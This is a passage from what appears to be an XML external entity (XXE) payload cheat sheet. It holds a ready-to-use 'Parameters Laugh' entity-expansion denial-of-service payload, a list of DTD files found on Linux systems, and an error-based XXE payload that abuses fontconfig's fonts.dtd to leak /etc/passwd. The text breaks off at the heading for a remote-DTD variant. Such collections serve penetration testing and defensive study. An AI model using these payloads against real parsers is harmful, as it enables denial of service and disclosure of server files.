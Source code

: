 ### Parameters Laugh attack

A variant of the Billion Laughs attack, using delayed interpretation of parameter entities, by Sebastian Pipping.

```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```

## Exploiting Error Based XXE

### Error Based - Using Local DTD File

Short list of dtd files already stored on Linux systems; list them with `locate .dtd`:

```xml
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/share/xml/svg/svg10.dtd
/usr/share/xml/svg/svg11.dtd
/usr/share/yelp/dtd/docbookx.dtd
```

The file `/usr/share/xml/fontconfig/fonts.dtd` has an injectable entity `%constant` at line 148: `<!ENTITY % constant 'int|double|string|matrix|bool|charset|langset|const'>`

The final payload becomes:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```

### Error Based - Using Remote DTD

**Payload to trigger the XXE**
